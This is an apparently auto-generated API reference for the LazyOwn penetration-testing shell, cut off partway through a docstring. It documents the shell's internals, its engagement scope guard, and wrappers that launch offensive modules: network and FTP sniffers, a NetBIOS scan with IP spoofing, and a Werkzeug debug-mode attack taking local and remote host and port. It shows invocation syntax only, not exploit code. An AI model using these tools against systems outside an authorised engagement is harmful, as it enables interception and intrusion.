- `_ux_debug` (line 156) `def _ux_debug(context, exc)` - *Log a swallowed UX-path exception at DEBUG level.

Args:
    context: Human-readable description of the failed step.
    exc: The exception that was caught.*
- `_parse_bool_setting` (line 211) `def _parse_bool_setting(value)` - *Coerce a cmd2 ``set`` argument into a Python ``bool``.

Accepts native booleans, integers, and the canonical truthy/falsy
strings used elsewhere in the framework (``true``/``false``,
``yes``/``no``, ``on``/``off``, ``1``/``0``). Anything else raises
:class:`ValueError` so cmd2 surfaces the error to the operator
instead of silently coercing to ``False``.*
- `main` (line 4986) `def main()`
- `_persist` (line 690) `def _persist(name, _old, _new)`
- `wrapper` (line 2038) `def wrapper(arg)`
- `wrapper_yaml` (line 2154) `def wrapper_yaml(arg)`
- `cmd_wrapper` (line 2282) `def cmd_wrapper(_)`
- `show_toastr` (line 2346) `def show_toastr()`
- `_handler` (line 1135) `def _handler(received, frame, _signum)`
- `_chain_perror` (line 1597) `def _chain_perror()`
- `make_wrapper` (line 1936) `def make_wrapper(cmd_template, tname, default_target)`
- `tool_wrapper` (line 1937) `def tool_wrapper(arg)`

**Methods:**
- `__init__` (line 245) `def __init__(self, params)` - *Bind the proxy to a live ``params`` dictionary.*
- `__getattr__` (line 249) `def __getattr__(self, name)`
- `__setattr__` (line 255) `def __setattr__(self, name, value)`
- `__init__` (line 373) `def __init__(self)` - *Initializer for the LazyOwnShell class.

This method sets up the initial parameters and scripts for an instance of
the LazyOwnShell class. It initializes a dictionary of parameters with default
values and a list of script names that are part of the LazyOwnShell toolkit.

Attributes:
    params (dict): A dictionary of parameters with their default values.
    scripts (list): A list of script names included in the toolkit.
    output (str): An empty string to store output or results.*
- `_register_ux_settables` (line 673) `def _register_ux_settables(self)` - *Expose the new UX flags through cmd2's ``set`` command.

cmd2's ``set`` reads/writes from a target object. The
:class:`_PayloadSettableProxy` proxies attribute access to
``self.params`` so ``set <key> <value>`` and ``assign <key> <value>``
update the same backing store and both persist through
:func:`core.config.save_payload`. The four keys registered here
(``tui_theme``, ``enable_operator_presence``, ``enable_toasts``,
``toast_max_per_tick``) match the schema entries in
:mod:`core.payload_schema`.*
- `_load_extended_params` (line 744) `def _load_extended_params(self)` - *Load extra parameters from ``params/*.yaml`` into ``self.params``.

Every YAML file in the ``params/`` directory is loaded as a flat
key-value dict and merged into ``self.params`` at startup. This
allows operators to add new configuration keys for lazyaddons,
aliases, and pipelines without modifying ``payload.json`` or
Python source.

Files are loaded in alphabetical order; later files override
earlier ones. ``payload.json`` keys are *not* overwritten.*
- `log_command` (line 777) `def log_command(self, cmd_name, cmd_args, start_time, end_time, duration_ms)` - *Logs the command execution details to a CSV file.

:param cmd_name: The name of the command.
:param cmd_args: The arguments of the command.
:param start_time: Optional ``"%Y-%m-%d %H:%M:%S"`` string captured
    before execution. Defaults to the current time when omitted.
:param end_time: Optional ``"%Y-%m-%d %H:%M:%S"`` string captured
    after execution. Defaults to ``start_time`` when omitted.
:param duration_ms: Measured wall-clock duration in milliseconds.*
- `default` (line 840) `def default(self, line)` - *Handles undefined commands, including aliases.

This method checks if a given command (or its alias) exists within the class
by attempting to find a corresponding method. If the command or alias is not
found, it prints an error message.

:param line: The command or alias to be handled.
:type line: str
:return: None*
- `scripts` (line 869) `def scripts(self)` - *Auto-discovered list of runnable script names.

Dynamically scans the shell for ``run_<name>`` methods, excluding
internal plumbing helpers (``run_script``, ``run_command``). The
result is cached until the next shell restart.

Returns:
    List of script name strings available via ``run <name>``.*
- `refresh_prompt` (line 888) `def refresh_prompt(self)` - *Recompute the Neon Box prompt from the live payload.

Call after any payload change a prompt segment renders (``rhost``,
``lhost``, ``domain``) so the operator sees the new value without
restarting the shell. ``assign`` and ``config_banner`` both route
through this so the prompt and the status-bar hook never disagree.*
- `do_set` (line 899) `def do_set(self, line)` - *Set a parameter — the unified ``set``/``assign`` surface.

Registered UX settables (``ui_hints``, ``tui_theme``,
``enable_toasts``...) keep native cmd2 semantics. Any other key
delegates to ``assign`` so documentation and muscle memory that
predate the split (``set rhost 10.10.10.10``) work again. With a
single unknown key and no value, prints the current value.*
- `_ui_hints_level` (line 924) `def _ui_hints_level(self)` - *Return the ambient coaching level: ``on``, ``minimal`` or ``off``.

``off`` suppresses every post-command coaching surface (toasts,
inline hints, protips, autosuggest and engagement flavour);
``minimal`` keeps only the autosuggest accelerator. Any unset or
unknown value means full ``on``.*
- `_toast_hook` (line 935) `def _toast_hook(self, data)` - *Post-command hook that prints unseen JSONL events as toast lines.

Reads the ``enable_toasts`` flag from ``self.params`` (default
True) so operators can disable transient notifications with
``set enable_toasts false`` without restarting. When the
``toast_ephemeral`` flag is set the same events render as
sonner-style auto-expiring lines instead of the persistent ascii
panel. Failures are logged at DEBUG level instead of being
silently swallowed.

Args:
    data: cmd2 PostcommandData containing the executed statement.

Returns:
    ``data`` unchanged.*
- `_unified_tips_hook` (line 964) `def _unified_tips_hook(self, data)` - *Unified post-command hook: chain prompt + hints + ELO + VRI.

The interactive chain prompt runs first and is independent of the
``ui_hints`` coaching level — it is a workflow, not a hint. When
chain mode is active the other suggestion surfaces (inline hints,
curiosity, autosuggest ghost) are suppressed so the operator sees
exactly one suggestion flow.

Args:
    data: cmd2 PostcommandData containing the executed statement.

Returns:
    data unchanged.*
- `_sync_chain_active` (line 1000) `def _sync_chain_active(self, tips_engine)` - *Mirror the chain-mode toggle into the tips engine suppression flag.

Args:
    tips_engine: The unified tips engine whose ``chain_active``
        config flag controls the competing suggestion surfaces.*
- `_chain_boot_prompt` (line 1014) `def _chain_boot_prompt(self)` - *Offer the first chain step right after the banner.

Runs exactly once per shell session (from ``__init__``) so the
operator sees the world-model-driven chain immediately, before
typing any command. Skipped silently for non-interactive shells.*
- `_build_chain_prompt_engine` (line 1029) `def _build_chain_prompt_engine(self)` - *Construct the interactive chain-mode engine wired to the shell.

The resolver delegates to :class:`cli.command_chain.CommandChain`
so suggestions are governed by the world model: static kill-chain
adjacency first, then nmap-discovered services (port triggers),
then addon/tool triggers, then phase priority. The engine is
non-interactive unless stdin is a TTY so headless/daemon shells
can never block on the prompt.

Returns:
    A ready-to-use :class:`cli.chain_mode.ChainPromptEngine`.*
- `_chain_resolver` (line 1054) `def _chain_resolver(self, cmd, phase)` - *Resolve world-model-driven next steps for the chain prompt.

Args:
    cmd: The command that just executed (first token).
    phase: Current engagement phase identifier.

Returns:
    Ordered :class:`cli.command_chain.NextStep` list, empty when no
    signal exists.*
- `_maybe_chain_prompt` (line 1072) `def _maybe_chain_prompt(self, cmd, phase)` - *Run the interactive chain loop after a command executes.

Keeps prompting while the operator accepts, overrides or picks
numbered alternatives. The loop is guarded by a busy flag so the
nested hooks of chained executions never re-enter it, and by the
engine's own step limit.

Args:
    cmd: The command that just executed (first token).
    phase: Current engagement phase identifier.*
- `_install_crypto_signal_handlers` (line 1118) `def _install_crypto_signal_handlers(self)` - *Encrypt session data when the process is terminated externally.

SIGTERM/SIGHUP bypass ``atexit`` (closing the terminal, killing
the shell), so both get a handler that runs the same encryption
path and then re-raises the signal with its original disposition.*
- `_run_auto_decrypt` (line 1144) `def _run_auto_decrypt(self)` - *Decrypt session data automatically on authenticated startup.*
- `_run_auto_encrypt` (line 1156) `def _run_auto_encrypt(self)` - *Encrypt session data automatically on application close.*
- `_read_recent_commands_for_autosuggest` (line 1173) `def _read_recent_commands_for_autosuggest(self, limit)` - *Return the last ``limit`` first-tokens from the session transcript.

Args:
    limit: Maximum number of distinct command names to return.

Returns:
    A list of command first-tokens. Empty when the file is absent.*
- `_refresh_autosuggest` (line 1200) `def _refresh_autosuggest(self, executed_command)` - *Recompute the active suggestion from the engine's provider chain.

Args:
    executed_command: Raw string of the command that just ran.*
- `_recording_hook` (line 1226) `def _recording_hook(self, data)` - *Post-command hook: record commands when ``makerc`` is active.*
- `_did_you_mean` (line 1239) `def _did_you_mean(self, query, limit)` - *Return up to ``limit`` close-matching command names.

Combines the local ``do_*`` index with the graphify knowledge graph
(when available) so an unknown command is recovered by both lexical
similarity and graph proximity. Empty result means no suggestion is
confident enough to surface.*
- `logcsv` (line 1280) `def logcsv(self, line, start_time, end_time, duration_ms)` - *Forward a command line to :meth:`log_command` for CSV persistence.

Args:
    line: Full command line in ``"<verb> <args>"`` form.
    start_time: Optional pre-execution timestamp string forwarded
        verbatim to :meth:`log_command`.
    end_time: Optional post-execution timestamp string forwarded
        verbatim to :meth:`log_command`.
    duration_ms: Measured wall-clock duration in milliseconds.*
- `cmd` (line 1321) `def cmd(self, line)` - *Internal function to execute commands.

Executes the given shell command, captures stdout via ``tee`` so the
operator both sees the output and a copy lands in ``sessions/logs/``,
and forwards a telemetry record to
:class:`modules.metrics.MetricsRecorder` so the duration and exit
code can be analysed later.

:param command: The command to be executed.
:type command: str
:return: ``None``.
:rtype: NoneType*
- `onecmd_plus_hooks` (line 1413) `def onecmd_plus_hooks(self, statement, add_to_history, raise_keyboard_interrupt, orig_rl_history_length)` - *Dispatch a command, expanding payload placeholders in custom aliases.

This is the single chokepoint through which every interactive command
flows, so it also enforces the authorization scope guard before the
command runs. Accepts both raw strings and parsed cmd2 ``Statement``
objects.

Args:
    statement: The command to run, as a string or ``Statement``.
    add_to_history: Whether cmd2 should record the command in history.
    raise_keyboard_interrupt: Whether to propagate Ctrl-C.
    orig_rl_history_length: Readline bookkeeping passed through to cmd2.

Returns:
    The ``stop`` flag from cmd2 (``True`` ends the loop). A scope block
    returns ``False`` so the offending command is skipped without
    terminating the session.*
- `_split_and_chain` (line 1515) `def _split_and_chain(raw_input)` - *Split a ``cmd1 && cmd2 && cmd3`` chain into parts.

Quote-aware: ``&&`` inside single/double quotes does not split,
so ``sh echo "a && b"`` keeps working. Returns ``None`` when
there is no top-level ``&&`` (normal single-command path).

Args:
    raw_input: Raw command line as typed by the operator.

Returns:
    List of stripped command parts, or ``None`` for a single command.*
- `_run_and_chain` (line 1560) `def _run_and_chain(self, parts, add_to_history, raise_keyboard_interrupt)` - *Run ``&&``-chained commands with short-circuit on failure.

Generic: works with ANY command (``ping && lazynmap && auto``,
``sh ... && ...``, aliases, ``;``-free mixes). Each part flows
through :meth:`onecmd_plus_hooks` again so aliases, scope guard
and placeholder expansion apply per command. The chain stops at
the first part that fails, where failure is ANY of:

- an exception raised by the command,
- a ``perror`` call (unknown command, cmd2 errors, alias errors),
- a non-zero ``exit_code`` (e.g. ``ping`` against a dead host),
- an integer non-zero ``last_result`` (e.g. ``sh false``).

A ``True`` stop flag (quit/exit) propagates immediately.

Args:
    parts: Command strings from :meth:`_split_and_chain`.
    add_to_history: Forwarded to each sub-command dispatch.
    raise_keyboard_interrupt: Forwarded to each sub-command dispatch.

Returns:
    The ``stop`` flag from cmd2 (``True`` ends the loop).*
- `_chain_part_exists` (line 1642) `def _chain_part_exists(self, part)` - *Check whether a chain part starts with a known command or alias.

Generic guard so ``badcmd && sitrep`` stops before running anything:
the shell's ``default()`` handler reports unknown commands via
toastr instead of ``perror``, so the failure would otherwise be
invisible to the chain runner.

Args:
    part: Single command string (already split on ``&&``).

Returns:
    ``True`` when the first token is a real command, a cmd2
    shortcut, or a known alias.*
- `_build_scope_offensive` (line 1670) `def _build_scope_offensive(self)` - *Compute the set of offensive command names from cmd2 categories.

Reads each command's help category via cmd2 introspection and delegates
the offensive/benign decision to
:func:`cli.scope_guard.build_offensive_commands`, so the classification
policy lives in one tested place.

Returns:
    The frozenset of offensive command names.*
- `_resolve_offensive` (line 1689) `def _resolve_offensive(self, name)` - *Return whether a command (or custom alias) is offensive.

Args:
    name: The command name or custom alias typed by the operator.

Returns:
    ``True`` when the command, or the command a custom alias expands to,
    belongs to an offensive kill-chain category.*
- `_scope_check` (line 1708) `def _scope_check(self, cmd_name)` - *Authorize a command against the configured engagement scope.

Builds a fresh :class:`cli.scope_guard.ScopeGuard` from the live payload
values so mid-session changes to ``scope`` / ``scope_enforcement`` take
effect immediately, then renders the decision. The guard fails open: any
unexpected error allows the command so a defect here never blocks the
operator.

Args:
    cmd_name: The command name about to run.

Returns:
    ``True`` when the command may proceed, ``False`` when it must be
    skipped (enforce mode, out of scope, confirmation declined).*
- `_scope_confirm` (line 1755) `def _scope_confirm(self, decision)` - *Ask the operator to confirm an out-of-scope offensive command.

Non-interactive sessions (piped input, ``-c`` execution, scripted runs)
cannot answer a prompt, so they are treated as a refusal: the safer
default for an enforce-mode block.

Args:
    decision: The blocking :class:`cli.scope_guard.ScopeDecision`.

Returns:
    ``True`` only when an interactive operator explicitly confirms.*
- `one_cmd` (line 1776) `def one_cmd(self, command)` - *Internal function to execute commands.

This method attempts to execute a given command using `onecmd` and captures
the output. It sets the `output` attribute based on whether the command was
executed successfully or an exception occurred.

:param command: The command to be executed.
:type command: str
:return: A message indicating the result of the command execution.
:rtype: str*
- `emptyline` (line 1822) `def emptyline(self)` - *Handle the case where the user enters an empty line.

This method is called when the user submits an empty line of input in
the command-line interface. By default, it provides feedback indicating
that no command was entered.

It is useful for providing user-friendly messages or handling empty input
cases in a custom manner.

License: This function is part of a program released under the GNU General
Public License v3.0 (GPLv3). You can redistribute it and/or modify it
under the terms of the GPLv3, as published by the Free Software Foundation.

Note: This method is called by the cmd library when an empty line is
entered. You can override it in a subclass to change its behavior.

Example:
    >>> shell = LazyOwnShell()
    >>> shell.emptyline()
    You didn't enter any command.*
- `load_user_commands` (line 1847) `def load_user_commands(self)` - *Carga los comandos personalizados desde user_commands.json*
- `save_user_command` (line 1859) `def save_user_command(self, alias, command)` - *Guarda un nuevo comando en user_commands.json*
- `list_files_in_directory` (line 1871) `def list_files_in_directory(self, directory)` - *Lista todos los archivos en un directorio dado.*
- `register_tool_commands` (line 1877) `def register_tool_commands(self)` - *Register every active ``tools/*.tool`` as a ``do_<toolname>`` command.

Placeholders in the tool's ``command`` template are resolved at call
time against ``self.params`` (so live config changes are honored).
Optional positional args passed to the command override ``port`` and
are appended as extra flags. When ``sessions/scan_<rhost>.nmap.xml``
exists and the tool's triggers match a discovered service, the host
and port are pre-populated from the scan; otherwise the command falls
back to ``rhost``/``rport`` from ``payload.json``.

Returns:
    None*
- `_register_lua_command` (line 2034) `def _register_lua_command(self, command_name, lua_function)` - *Registra un comando nuevo desde Lua.*
- `load_plugins` (line 2061) `def load_plugins(self)` - *Load every Lua plugin from the 'plugins/' directory.*
- `load_yaml_plugins` (line 2091) `def load_yaml_plugins(self)` - *Loads all YAML plugins from the 'lazyaddons/' directory.

This method scans the 'lazyaddons/' directory, reads each YAML file,
and registers enabled plugins as new commands.*
- `register_yaml_plugin` (line 2114) `def register_yaml_plugin(self, plugin_data)` - *Register a YAML addon as a shell command.

Reads the optional ``category`` field from the addon YAML (falls back
to ``"14. Yaml Addon."`` when absent) and sets the cmd2 category
attribute on the wrapper so the command appears in the correct palette
section without any hardcoded string in this method.

Also reads the optional ``tags`` list for future palette filtering,
the optional ``os`` field (MITRE platform: ``linux``, ``windows``,
``macos``, ``network``, ``containers``, ``saas``, ``iaas`` or
``any``) and the optional ``trigger`` list of nmap service names
consumed by the exploration engine. Both ``os`` and ``trigger``
default to ``any`` / ``[]`` so legacy addons keep loading.

A lightweight dependency check runs before first execution.*
- `register_all_adversary_commands` (line 2260) `def register_all_adversary_commands(self)`
- `_register_adversary_command` (line 2273) `def _register_adversary_command(self, adv)`
- `display_toastr` (line 2289) `def display_toastr(self, message, type)` - *Display a toastr-like notification in the terminal with adaptive sizing.*
- `_wrap_text` (line 2351) `def _wrap_text(self, text, max_width)` - *Helper method to wrap text to fit within specified width.*
- `completedefault` (line 2368) `def completedefault(self, text, line, begidx, endidx)` - *Fall through to the payload-aware completer for unhandled commands.*
- `preloop` (line 2393) `def preloop(self)` - *Print a session-start pro tip and handle first-run setup.

Also attempts auto-login via remember-me token.
If no session exists, warns the operator to use ``login``.*
- `postparsing_precmd` (line 2531) `def postparsing_precmd(self, statement)` - *Gate unauthenticated commands — anonymous operators can only
run ``register``, ``login``, ``logout``, ``whoami``, ``help``, ``exit``, ``quit``,
and ``set`` until they identify themselves.

Returns:
    The original statement to allow execution, or a statement with
    an empty command string to block execution.*
- `postloop` (line 2559) `def postloop(self)` - *Handle operations to perform after exiting the command loop.

This method is called after the command loop terminates, typically used
for performing any final cleanup or displaying messages before the program
exits.

In this implementation, it prints a message indicating that the custom
shell is exiting.

License: This function is part of a program released under the GNU General
Public License v3.0 (GPLv3). You can redistribute it and/or modify it
under the terms of the GPLv3, as published by the Free Software Foundation.

Note: This method is called automatically by the `cmd` library's command
loop after the loop terminates. You can override it in a subclass to
customize its behavior.

Example:
>>> shell = LazyOwnShell()
>>> shell.cmdloop()  # Exits the command loop
GoodBye LazyOwner*
- `complete_phase` (line 2592) `def complete_phase(self, text, line, begidx, endidx)` - *Tab-complete phase names.*
- `complete_l00t` (line 2597) `def complete_l00t(self, text, line, begidx, endidx)` - *Tab-complete l00t subcommands.*
- `complete_loot` (line 2603) `def complete_loot(self, text, line, begidx, endidx)` - *Tab-complete loot subcommands (delegates to l00t).*
- `complete_assign` (line 2608) `def complete_assign(self, text, line, begidx, endidx)` - *Tab-complete the parameter name from the live payload keys.

Driven entirely by ``self.params`` so the framework never has to
maintain a parallel list of completion targets — adding a new key to
``payload.json`` makes it tab-completable for free.*
- `complete_scope` (line 2625) `def complete_scope(self, text, line, begidx, endidx)` - *Tab-complete the scope subcommands.*
- `_scope_entries` (line 2638) `def _scope_entries(self)` - *Return the current scope as a fresh mutable list of entry strings.*
- `_scope_save` (line 2644) `def _scope_save(self, entries, mode)` - *Persist scope and/or mode changes to ``payload.json``.

Mutates ``self.params`` in place and writes through the same atomic
``save_payload`` path used by ``assign``, keeping a single writer for
the config file.

Args:
    entries: Replacement scope list, or ``None`` to leave it unchanged.
    mode: Replacement enforcement mode, or ``None`` to leave it
        unchanged.*
- `_scope_render` (line 2662) `def _scope_render(self, entries, mode)` - *Print the current scope and enforcement mode.*
- `complete_palette` (line 2676) `def complete_palette(self, text, line, begidx, endidx)` - *Tab-complete the palette command using the live command index.

Position 1 yields phase identifiers and the ``--search`` / ``--info``
verbs; position 2 yields phase-scoped command names (or every name
when the first token is ``--info``). Driven entirely by
:class:`cli.palette_command.PaletteCompleter` so the framework never
has to maintain a parallel completion list — regenerating the index
is enough.*
- `run_lazysearch` (line 2693) `def run_lazysearch(self)` - *Runs the internal module `modules/lazysearch.py`.

This method executes the `lazysearch` script from the specified path, using
the `binary_name` parameter from the `self.params` dictionary. If `binary_name`
is not set, it prints an error message.

:return: None*
- `run_lazysearch_gui` (line 2710) `def run_lazysearch_gui(self)` - *Run the internal module located at `modules/LazyOwnExplorer.py`.

This method executes the `LazyOwnExplorer.py` script, which is used for graphical user interface (GUI) functionality within the LazyOwn framework.

The function performs the following steps:

1. Calls `self.run_script` with `LazyOwnExplorer.py` to execute the GUI module.

:returns: None

Manual execution:
1. Ensure that the `modules/LazyOwnExplorer.py` script is present in the `modules` directory.
2. Run the script with:
    `python3 modules/LazyOwnExplorer.py`

Example:
    To run `LazyOwnExplorer.py` directly, execute:
    `python3 modules/LazyOwnExplorer.py`

Note:
    - Ensure that the script has the appropriate permissions and dependencies to run.
    - Verify that your environment supports GUI operations if using this script in a non-graphical environment.*
- `run_lazyown` (line 2740) `def run_lazyown(self)` - *Run the internal module located at `modules/lazyown_parquet_tool.py`.

This method executes the `lazyown_parquet_tool.py` script, which is a
parquet search component of the LazyOwn framework.

The function performs the following steps:

1. Calls `self.run_script` with `lazyown_parquet_tool.py` to execute the script.

:returns: None

Manual execution:
1. Ensure that the `modules/lazyown_parquet_tool.py` script is present in the `modules` directory.
2. Run the script with:
    `python3 modules/lazyown_parquet_tool.py`

Note:
    - Ensure that the script has the appropriate permissions and dependencies to run.*
- `run_update_db` (line 2766) `def run_update_db(self)` - *Run the internal module located at `modules/update_db.sh`.

This method executes the `update_db.sh` script to update the database of binary exploitables from `gtofbins`.

The function performs the following steps:

1. Executes the `update_db.sh` script located in the `modules` directory using `os.system`.

:returns: None

Manual execution:
1. Ensure that the `modules/update_db.sh` script is present in the `modules` directory.
2. Run the script with:
    `./modules/update_db.sh`

Example:
    To manually update the database, execute:
    `./modules/update_db.sh`

Note:
    - Ensure that the script has execute permissions.
    - The script should be run with the necessary privileges if required.*
- `run_lazynmap` (line 2796) `def run_lazynmap(self)` - *Runs the internal module `modules/lazynmap.sh` for multiple Nmap scans.

OS detection (via ping TTL) is performed automatically before scanning
when the target OS is not yet known. This ensures the correct tool chain
is selected for subsequent enumeration: SMB/Kerberos/AD for Windows,
SSH/web for Linux/Unix.

This method executes the `lazynmap` script, using the current working directory
and the `rhost` parameter from the `self.params` dictionary as the target IP.
If `rhost` is not set, it prints an error message.

:return: None*
- `run_lazywerkzeugdebug` (line 2861) `def run_lazywerkzeugdebug(self)` - *Run the internal module located at `modules/legacy/lazywerkzeug.py` in debug mode.

This method executes the `lazywerkzeug.py` script with the specified parameters for remote and local hosts and ports. It is used to test Werkzeug in debug mode.

The function performs the following steps:

1. Retrieves the `rhost`, `lhost`, `rport`, and `lport` values from `self.params`.
2. Checks if all required parameters are set. If not, prints an error message and returns.
3. Calls `self.run_script` with `lazywerkzeug.py` and the specified parameters.

:param rhost: The remote host address.
:type rhost: str

:param lhost: The local host address.
:type lhost: str

:param rport: The remote port number.
:type rport: int

:param lport: The local port number.
:type lport: int

:returns: None

Manual execution:
1. Ensure that `rhost`, `lhost`, `rport`, and `lport` are assign in `self.params`.
2. The script `modules/legacy/lazywerkzeug.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazywerkzeug.py <rhost> <rport> <lhost> <lport>`

Example:
    To run `lazywerkzeug.py` with `rhost` assign to `"127.0.0.1"`, `rport` to `5000`, `lhost` to `"localhost"`, and `lport` to `8000`, set:
    `self.params["rhost"] = "127.0.0.1"`
    `self.params["rport"] = 5000`
    `self.params["lhost"] = "localhost"`
    `self.params["lport"] = 8000`
    Then call:
    `run_lazywerkzeugdebug()`

Note:
    - Ensure that `modules/legacy/lazywerkzeug.py` has the appropriate permissions and dependencies to run.
    - Verify that the specified hosts and ports are correct and available.*
- `run_lazygath` (line 2918) `def run_lazygath(self)` - *Run the internal module located at `modules/lazygat.sh`. to gathering the sistem :)

This method executes the `lazygat.sh` script located in the `modules` directory with `sudo` privileges.

The function performs the following steps:

1. Retrieves the current working directory.
2. Executes the `lazygat.sh` script using `sudo` to ensure it runs with elevated permissions.

:returns: None

Manual execution:
1. Ensure that the `modules/lazygat.sh` script is present in the `modules` directory.
2. Run the script with:
    `sudo ./modules/lazygat.sh`

Example:
    To manually run the script with elevated privileges, execute:
    `sudo ./modules/lazygat.sh`

Note:
    - Ensure that the script has execute permissions.
    - The script should be run with `sudo` if it requires elevated privileges.*
- `run_lazynmapdiscovery` (line 2950) `def run_lazynmapdiscovery(self)` - *Runs the internal module `modules/lazynmap.sh` with discovery mode.

This method executes the `lazynmap` script in discovery mode. It uses the current
working directory for locating the script.

:return: None*
- `run_lazysniff` (line 2965) `def run_lazysniff(self)` - *Run the sniffer internal module located at `modules/legacy/lazysniff.py` with the specified parameters.

This method executes the script with the following arguments:

- `device`: The network interface to be used for sniffing, specified in `self.params`.

The function performs the following steps:

1. Retrieves the `device` value from `self.params`.
2. Sets up the environment variables `LANG` and `TERM` to ensure proper script execution.
3. Uses `subprocess.run` to execute the `lazysniff.py` script with the `-i` option to specify the network interface.

:param device: The network interface to be used for sniffing.
:type device: str

:returns: None

Manual execution:
1. Ensure that `device` is assign in `self.params`.
2. The script `modules/legacy/lazysniff.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazysniff.py -i <device>`

Example:
    To run `lazysniff` with `device` assign to `"eth0"`, set:
    `self.params["device"] = "eth0"`
    Then call:
    `run_lazysniff()`

Note:
    - Ensure that `modules/legacy/lazysniff.py` has the appropriate permissions and dependencies to run.
    - Ensure that the network interface specified is valid and properly configured.*
- `run_lazyftpsniff` (line 3014) `def run_lazyftpsniff(self)` - *Run the sniffer ftp internal module located at `modules/legacy/lazyftpsniff.py` with the specified parameters.

This function executes the script with the following arguments:

- `device`: The network interface to be used for sniffing, specified in `self.params`.

The function performs the following steps:

1. Retrieves the `device` value from `self.params`.
2. Sets up the environment variables `LANG` and `TERM` to ensure proper script execution.
3. Uses `subprocess.run` to execute the `lazyftpsniff.py` script with the `-i` option to specify the network interface.

:param device: The network interface to be used for sniffing.
:type device: str

:returns: None

Manual execution:
1. Ensure that `device` is assign in `self.params`.
2. The script `modules/legacy/lazyftpsniff.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazyftpsniff.py -i <device>`

Example:
    To run `lazyftpsniff` with `device` assign to `"eth0"`, set:
    `self.params["device"] = "eth0"`
    Then call:
    `run_lazyftpsniff()`

Note:
    - Ensure that `modules/legacy/lazyftpsniff.py` has the appropriate permissions and dependencies to run.
    - Ensure that the network interface specified is valid and properly configured.*
- `run_lazynetbios` (line 3060) `def run_lazynetbios(self)` - *Run the internal module to search netbios vuln victims, located at `modules/legacy/lazynetbios.py` with the specified parameters.

This function executes the script with the following arguments:

- `startip`: The starting IP address for the NetBIOS scan, specified in `self.params`.
- `endip`: The ending IP address for the NetBIOS scan, specified in `self.params`.
- `spoof_ip`: The IP address to be used for spoofing, specified in `self.params`.

The function performs the following steps:

1. Retrieves the `startip`, `endip`, and `spoof_ip` values from `self.params`.
2. Uses `subprocess.run` to execute the `lazynetbios.py` script with the specified parameters.

:param startip: The starting IP address for the NetBIOS scan.
:type startip: str

:param endip: The ending IP address for the NetBIOS scan.
:type endip: str

:param spoof_ip: The IP address to be used for spoofing.
:type spoof_ip: str

:returns: None

Manual execution:
1. Ensure that `startip`, `endip`, and `spoof_ip` are assign in `self.params`.
2. The script `modules/legacy/lazynetbios.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazynetbios.py <startip> <endip> <spoof_ip>`

Example:
    To run `lazynetbios` with `startip` assign to `"192.168.1.1"`, `endip` assign to `"192.168.1.10"`, and `spoof_ip` assign to `"192.168.1.100"`, assign:
    `self.params["startip"] = "192.168.1.1"`
    `self.params["endip"] = "192.168.1.10"`
    `self.params["spoof_ip"] = "192.168.1.100"`
    Then call:
    `run_lazynetbios()`

Note:
    - Ensure that `modules/legacy/lazynetbios.py` has the appropriate permissions and dependencies to run.
    - Ensure that the IP addresses are correctly set and valid for the NetBIOS scan.*
- `run_lazyhoneypot` (line 3111) `def run_lazyhoneypot(self)` - *Run the internal module located at `modules/legacy/lazyhoneypot.py` with the specified parameters.

This function executes the script with the following arguments:

- `email_from`: The email address from which messages will be sent, specified in `self.params`.
- `email_to`: The recipient email address, specified in `self.params`.
- `email_username`: The username for email authentication, specified in `self.params`.
- `email_password`: The password for email authentication, specified in `self.params`.

The function performs the following steps:

1. Retrieves the `email_from`, `email_to`, `email_username`, and `email_password` values from `self.params`.
2. Calls the `run_script` method to execute the `lazyhoneypot.py` script with the provided email parameters.

:param email_from: The email address from which messages will be sent.
:type email_from: str

:param email_to: The recipient email address.
:type email_to: str

:param email_username: The username for email authentication.
:type email_username: str

:param email_password: The password for email authentication.
:type email_password: str

:returns: None

Manual execution:
1. Ensure that `email_from`, `email_to`, `email_username`, and `email_password` are assign in `self.params`.
2. The script `modules/legacy/lazyhoneypot.py` should be present in the `modules` directory.
3. Run the script with:
    `python3 modules/legacy/lazyhoneypot.py --email_from <email_from> --email_to <email_to> --email_username <email_username> --email_password <email_password>`

Example:
    To run `lazyhoneypot` with `email_from` assign to `"sender@example.com"`, `email_to` assign to `"recipient@example.com"`, `email_username` assign to `"user"`, and `email_password` assign to `"pass"`, set:
    `self.params["email_from"] = "sender@example.com"`
    `self.params["email_to"] = "recipient@example.com"`
    `self.params["email_username"] = "user"`
    `self.params["email_password"] = "pass"`
    Then call:
    `run_lazyhoneypot()`

Note:
    - Ensure that `modules/legacy/lazyhoneypot.py` has the appropriate permissions and dependencies to run.
    - Ensure that the email credentials are correctly set for successful authentication and operation.*
- `run_lazysearch_bot` (line 3177) `def run_lazysearch_bot(self)` - *Run the internal module GROQ AI located at `modules/legacy/lazysearch_bot.py` with the specified parameters.

This function executes the script with the following arguments:

- `prompt`: The prompt to be used by the script, specified in `self.params`.
- `api_key`: The API key to be assign in the environment variable `GROQ_API_KEY`, specified in `self.params`.

The function performs the following steps:

1. Retrieves the `prompt` and `api_key` values from `self.params`.
2. Checks if both `prompt` and `api_key` are assign. If either is missing, it prints an error message and returns.
3. Sets the environment variable `GROQ_API_KEY` with the provided `api_key`.
4. Calls the `run_script` method to execute the `lazysearch_bot.py` script with the `--prompt` argument.

:param prompt: The prompt to be used by the script.
:type prompt: str

:param api_key: The API key for accessing the service.
:type api_key: str

:returns: None

Manual execution:
1. Ensure that `prompt` and `api_key` are assign in `self.params`.
2. The script `modules/legacy/lazysearch_bot.py` should be present in the `modules` directory.
3. Set the environment variable `GROQ_API_KEY` with the API key value.
4. Run the script with:
    `python3 modules/legacy/lazysearch_bot.py --prompt <prompt>`

Example:
    To run `lazysearch_bot` with `prompt` assign to `"Search query"` and `api_key` assign to `"your_api_key"`, assign:
    `self.params["prompt"] = "Search query"`
    `self.params["api_key"] = "your_api_key"`
    Then call:
    `run_lazysearch_bot()`

Note:
    - Ensure that `modules/legacy/lazysearch_bot.py` has the appropriate permissions and dependencies to run.
    - The environment variable `GROQ_API_KEY` must be correctly assign for the script to function.*
- `run_lazymetaextract0r` (line 3228) `def run_lazymetaextract0r(self)` - *Run the Metadata extractor internal module located at `modules/lazyown_metaextract0r.py` with the specified parameters.

This function executes the script with the following arguments:

- `path`: The file path to be processed by the script, specified in `self.params`.

The function performs the following steps:

1. Retrieves the value for `path` from `self.params`.
2. Checks if the `path` parameter is assign. If not, it prints an error message and returns.
